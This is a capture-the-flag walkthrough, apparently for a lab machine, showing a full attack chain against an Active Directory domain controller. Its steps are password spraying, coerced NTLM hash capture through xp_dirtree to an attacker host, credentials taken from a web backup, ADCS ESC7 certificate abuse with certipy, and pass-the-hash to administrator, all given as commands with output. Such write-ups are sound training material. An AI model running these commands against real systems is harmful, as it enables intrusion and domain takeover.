


## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.236
Host is up (0.047s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-23 06:29:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-23T06:30:56+00:00; +6h59m59s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-23T06:30:56+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2023-10-23T06:30:55+00:00; +6h59m59s from scanner time.
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-23T05:24:57
|_Not valid after:  2053-10-23T05:24:57
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-23T06:30:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-23T06:30:56+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-23T06:30:14
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.40 seconds
```
From the nmap scanning, we can see this is a domain controller for Active Directory. There are a lot of open ports associated with active directory (ldap, smb, rpc) so we have a wide attack surface to work with. 
### Probing Active Directory
Firstly checking SMB for anonymous authentication:
```
┌──(kali㉿kali)-[~]
└─$ cme smb 10.10.11.236 -u 'Anonymous' -p '' --shares
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\Anonymous: 
SMB         10.10.11.236    445    DC01             [+] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL                          Logon server share
```
Anonymous authentication is allowed, but there are no interesting shares to explore. Next, I see what public data I can see through ldap without credentials:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ ldapsearch -v -x -b "DC=manager,DC=htb" -H "ldap://10.10.11.236" "(objectclass=*)"
ldap_initialize( ldap://10.10.11.236:389/??base )
filter: (objectclass=*)
requesting: All userApplication attributes
# extended LDIF
#
# LDAPv3
# base <DC=manager,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090CF4, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```
Once again, there is no more interesting information. Since there is a web page open on port 80, I decided to take a look at the website.
### Enumerating The Website

The web page is a static html. Checking the other listed pages also only shows html pages, so I look into directory brute forcing:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ cat tcp_80_http_feroxbuster_dirbuster.txt | grep 200
200      GET       14l       48w     3837c http://manager.htb/images/logo.png
200      GET        9l       41w     2465c http://manager.htb/images/s-4.png
200      GET       85l      128w     1389c http://manager.htb/css/responsive.css
200      GET        6l       17w     1553c http://manager.htb/images/s-1.png
200      GET        6l       20w     1360c http://manager.htb/images/location-o.png
200      GET      157l      414w     5386c http://manager.htb/about.html
200      GET       82l      542w    56157c http://manager.htb/images/contact-img.jpg
200      GET        4l       20w     1337c http://manager.htb/images/s-2.png
200      GET      149l      630w    53431c http://manager.htb/images/client.jpg
200      GET       10l       43w     2023c http://manager.htb/images/call.png
200      GET        9l       31w     2492c http://manager.htb/images/s-3.png
200      GET      614l     1154w    11838c http://manager.htb/css/style.css
200      GET     4437l    10999w   131863c http://manager.htb/js/bootstrap.js
200      GET        6l       22w     1052c http://manager.htb/images/location.png
200      GET        9l       25w     1255c http://manager.htb/images/envelope.png
200      GET      224l      650w     7900c http://manager.htb/service.html
200      GET      165l      367w     5317c http://manager.htb/contact.html
200      GET      507l     1356w    18203c http://manager.htb/index.html
200      GET       10l       42w     2704c http://manager.htb/images/call-o.png
200      GET    10038l    19587w   192348c http://manager.htb/css/bootstrap.css
200      GET        2l     1276w    88145c http://manager.htb/js/jquery-3.4.1.min.js
200      GET     1313l     7384w   563817c http://manager.htb/images/about-img.png
200      GET        7l       29w     1606c http://manager.htb/images/envelope-o.png
200      GET      507l     1356w    18203c http://manager.htb/
```
Here we still only see the static webpages, and also js/css files. Nothing interesting once again
### Returning to Active Directory Attacks
While obtaining only a username gives limited information, we can also try to AS-REP roast with just usernames. To gather some legitimate usernames, we can enumerate valid users through Kerberos Pre-Authentication (Kerbrute).
```
┌──(kali㉿kali)-[~/…/manager/results/manager.htb/scans]
└─$ /home/kali/go/bin/kerbrute userenum -d manager.htb --dc 10.10.11.236 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 10/21/23 - Ronnie Flathers @ropnop

2023/10/21 21:33:30 >  Using KDC(s):
2023/10/21 21:33:30 >   10.10.11.236:88

2023/10/21 21:33:31 >  [+] VALID USERNAME:       ryan@manager.htb
2023/10/21 21:33:33 >  [+] VALID USERNAME:       guest@manager.htb
2023/10/21 21:33:34 >  [+] VALID USERNAME:       cheng@manager.htb
2023/10/21 21:33:35 >  [+] VALID USERNAME:       raven@manager.htb
2023/10/21 21:33:39 >  [+] VALID USERNAME:       administrator@manager.htb
2023/10/21 21:33:49 >  [+] VALID USERNAME:       Ryan@manager.htb
2023/10/21 21:33:51 >  [+] VALID USERNAME:       Raven@manager.htb
2023/10/21 21:33:56 >  [+] VALID USERNAME:       operator@manager.htb
2023/10/21 21:34:39 >  [+] VALID USERNAME:       Guest@manager.htb
2023/10/21 21:34:40 >  [+] VALID USERNAME:       Administrator@manager.htb
2023/10/21 21:35:21 >  [+] VALID USERNAME:       Cheng@manager.htb
2023/10/21 21:39:57 >  [+] VALID USERNAME:       jinwoo@manager.htb
2023/10/21 21:41:37 >  [+] VALID USERNAME:       RYAN@manager.htb
2023/10/21 21:46:29 >  [+] VALID USERNAME:       RAVEN@manager.htb
2023/10/21 21:46:43 >  [+] VALID USERNAME:       GUEST@manager.htb
2023/10/21 23:04:09 >  [+] VALID USERNAME:       zhong@manager.htb
```
Now that we have several users, we can see about AS-REP roasting. If an account has the attribute `DONT_REQ_PREAUTH`, we can request and retrieve an AS-REP hash for that user. If this hash can be cracked offline, we will get complete login credentials for a user. Unfortunately, trying all our usernames doesn't give us any hash:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ impacket-GetNPUsers manager.htb/ -usersfile users.txt -format hashcat -outputfile asreproast.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cheng doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User raven doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User operator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jinwoo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zhong doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
After nearly all other options are exhausted, I finally consider password spraying with the same list of usernames:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ cme smb 10.10.11.236 -u users.txt -p users.txt                                                      
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
<...SNIP...>
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```
We have a hit with `operator:operator`. Very cool........
With valid credentials, we can dump users to find any we in the kerbrute:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ cme smb 10.10.11.236 -u operator -p operator --users
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] Enumerated domain user(s)
SMB         10.10.11.236    445    DC01             manager.htb\Operator                       badpwdcount: 1 desc: 
SMB         10.10.11.236    445    DC01             manager.htb\ChinHae                        badpwdcount: 1 desc: 
SMB         10.10.11.236    445    DC01             manager.htb\JinWoo                         badpwdcount: 490 desc:                                                                                                                   
SMB         10.10.11.236    445    DC01             manager.htb\Raven                          badpwdcount: 452 desc:                                                                                                                   
SMB         10.10.11.236    445    DC01             manager.htb\Ryan                           badpwdcount: 501 desc:                                                                                                                   
SMB         10.10.11.236    445    DC01             manager.htb\Cheng                          badpwdcount: 499 desc:                                                                                                                   
SMB         10.10.11.236    445    DC01             manager.htb\Zhong                          badpwdcount: 1 desc: 
SMB         10.10.11.236    445    DC01             manager.htb\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account                                                                             
SMB         10.10.11.236    445    DC01             manager.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain                                                            
SMB         10.10.11.236    445    DC01             manager.htb\Administrator                  badpwdcount: 14 desc: Built-in account for administering the computer/domain 
```
Now we have a complete user list:
```
Operator
ChinHae
JinWoo
Raven
Ryan
Cheng
Zhong
krbtgt
Guest
Administrator
```
## Foothold
### Enumeration through MSSQL
The user operator can log into the mysql server:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ impacket-mssqlclient operator@10.10.11.236 -windows-auth 
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```
`xp_cmdshell` is disabled, but we can still grab the auth hash by using `xp_dirtree`:
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree \\10.10.14.130\asdf
subdirectory   depth   file   
------------   -----   ----   
SQL (MANAGER\Operator  guest@master)> 
```
Meanwhile on my kali attacker, responder was set up and receives hash:
```bash
┌──(kali㉿kali)-[~/Documents/manager]
└─$ sudo responder -I tun0           
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

<...SNIP...>
[+] Listening for events...                                                                                         

[SMB] NTLMv2-SSP Client   : 10.10.11.236
[SMB] NTLMv2-SSP Username : MANAGER\DC01$
[SMB] NTLMv2-SSP Hash     : DC01$::MANAGER:3ba8f5638ddfbf79:24D8DE0CB08E44422228AFE46D129507:01010000000000008053CCC72005DA010484A96EB96C6D510000000002000800530030005800420001001E00570049004E002D00520035004B004500440038004E00520052004500590004003400570049004E002D00520035004B004500440038004E0052005200450059002E0053003000580042002E004C004F00430041004C000300140053003000580042002E004C004F00430041004C000500140053003000580042002E004C004F00430041004C00070008008053CCC72005DA0106000400020000000800300030000000000000000000000000300000A0D44DBDCE97AF1E697D96B4805912B3F46596596ABF62217A1A9445B02F5E6B0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100330030000000000000000000 
```
We can see the authentication is done as the system, DC01$. Typically, passwords for this account will be a very long string of random characters, completely unfeasible to crack. After a quick attempt at cracking using the `rockyou` wordlist, I gave up on this approach.
### Enumerating The Web Server Filesystem
Also using `xp_dirtree`, we can browse the file system. Since we didn't see much in the web directory from the oustide perspective, I decided to check if maybe I can see more by looking at the filesystem:
```
SQL (MANAGER\Operator  manager\operator@master)> xp_dirtree \inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1   
```
The backup file is extremely unusual. While xp_dirtree itself doesn't seem to have the option of downloading, note this is in the web root folder, meaning it should be accessible through the website. Which it is!



When we unzip the backup, note that there is a "secret" conf file:
```bash
┌──(kali㉿kali)-[~/Documents/manager/website-backup]
└─$ unzip website-backup-27-07-23-old.zip 
Archive:  website-backup-27-07-23-old.zip
  inflating: .old-conf.xml           
  inflating: about.html         
<...SNIP...>
```
It contains full credentials for a user on the box:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```
`raven:R4v3nBe5tD3veloP3r!123`
With this, we can use evil-winrm to authenticate:
```
┌──(kali㉿kali)-[~/Documents/manager/website-backup]
└─$ evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents>
```
## Privilege Escalation
### Active Directory Enumeration via Bloodhound
#### Running SharpHound
Active Directory can be very complex to navigate. Fortunately, the tool `bloodhound` can perform a lot of the enumerations, and organize it visually for us to analyze. The first step is to upload `SharpHound.exe`, the data collection tool, onto the box.
```
*Evil-WinRM* PS C:\Users\Raven\downloads> upload /opt/SharpCollection/NetFramework_4.7_x64/SharpHound.exe
                                        
Info: Uploading /opt/SharpCollection/NetFramework_4.7_x64/SharpHound.exe to C:\Users\Raven\downloads\SharpHound.exe
                                        
Data: 965288 bytes of 965288 bytes copied
                                        
Info: Upload successful!
```
Next, run sharphound:
```
*Evil-WinRM* PS C:\Users\Raven\Downloads> .\Sharphound.exe -c all
2023-10-24T16:13:22.8146576-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-10-24T16:13:22.9240425-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
<...SNIP...>
2023-10-24T16:14:06.9865347-07:00|INFORMATION|SharpHound Enumeration Completed at 4:14 PM on 10/24/2023! Happy Graphing!
*Evil-WinRM* PS C:\Users\Raven\Downloads> ls


    Directory: C:\Users\Raven\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/24/2023   4:14 PM          11682 20231024161406_BloodHound.zip
-a----       10/24/2023   4:14 PM           8568 NjQ0M2M1ZmEtNTkyNy00OWNjLWJmNzAtOWZiMzUxMzM4MmNj.bin
-a----       10/24/2023   4:12 PM         723968 SharpHound.exe
```
The resulting `.bin` file is an artifact that can be removed, while the `.zip` should be transferred back to kali for bloodhound enumeration.
```
*Evil-WinRM* PS C:\Users\Raven\Downloads> download 20231024161406_BloodHound.zip
                                        
Info: Downloading C:\Users\Raven\Downloads\20231024161406_BloodHound.zip to 20231024161406_BloodHound.zip
                                        
Info: Download successful!
```
#### Initializing BloodHound
Bloodhound relies on `neo4j`, so we must first start `neo4j` service. Currently, kali linux does not ship with `neo4j` installed, so it might need to be installed as well. 
```
┌──(kali㉿kali)-[~/Documents/manager/website-backup]
└─$ sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:183758). It is available at http://localhost:7474
There may be a short delay until the server is ready
```
If this is the first time running, `neo4j`, you need to visit localhost:7474 and change the login credentials off of the default, `neo4j:neo4j`. Afterwards, bloodhound is finally ready to start:
```
┌──(kali㉿kali)-[~/Documents/manager/website-backup]
└─$ which bloodhound
/usr/bin/bloodhound
                                                                                                                    
┌──(kali㉿kali)-[~/Documents/manager/website-backup]
└─$ bloodhound
(node:184873) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron.  See https://github.com/electron/electron/issues/23506 for more information
(node:184943) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
```
Bloodhound is already in my PATH, but this is not the default.
#### Raven is a member of Certificate Service Dcom Access
Exploring bloodhound, we can see Raven is a part of this group Certificate Service Dcom Access. 



Note that this relationship exists because Raven is a member of a group, that are members of a group, that are members of a group. Bloodhound tells us this information very easily, but this can be challenging to navigate manually. Thus, is the power of bloodhound visualization!
### Exploiting AD Certificate Services
This group is something I don't know much about, but doing short research shows some articles mentioning [AD Certificate Services for privilege escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation). Another article [here](https://redfoxsec.com/blog/exploiting-active-directory-certificate-services-ad-cs/). We can use `certipy` to enumerate the certificate services:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20231023144351_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231023144351_Certipy.txt'
[*] Saved JSON output to '20231023144351_Certipy.json'
```
The txt/json output gives us a lot of information about certificate services, but one line in particular sticks out:
```
      "[!] Vulnerabilities": {
        "ESC7": "'MANAGER.HTB\\\\Raven' has dangerous permissions"
      }
```
It looks like our user Raven has dangerous permissions over the template "ESC7". Very fortunately, the hacktricks article mentioned earlier has a list of commands for [exploiting ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7). 
#### Using ESC7 attack #2:
Note that because the box seems to reset certificate changes frequently, the following commands must be performed at a relatively fast pace, or else the later commands will result in permission failures.
First is to add Raven as an officer:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
At this point, I use the domain `manager.htb`. If this is not added to your /etc/hosts with the ip address of the box, these commands will fail.

Next, enabling `SubCA`:
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ certipy ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -enable-template 'SubCA' 
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
Now using `SubCA`, we request a template. The request is denied, but we are still given the option to save the private key, which we will do.
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 15
Would you like to save the private key? (y/N) y
[*] Saved private key to 15.key
[-] Failed to request certificate
```
Next, we issue a request using the saved private key.
```
┌──(kali㉿kali)-[~/Documents/manager/sysinternals]
└─$ certipy ca -ca 'manager-DC01-CA' -issue-request 15 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
Lastly, we can retrieve the issued certificate, giving us `administrator.pfx`. Note that this pfx is related to the -upn accound we provided previously.
```
┌──(kali㉿kali)-[~/Documents/manager/sysinternals]
└─$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 15
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 15
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '15.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
Now with the pfx file acquired, we can return back to `certipy` and use it for authorization!
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.153.73
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```
With the NT hash, we can employ pass the hash in evil-winrm, and authenticate as administrator.
```
┌──(kali㉿kali)-[~/Documents/manager]
└─$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

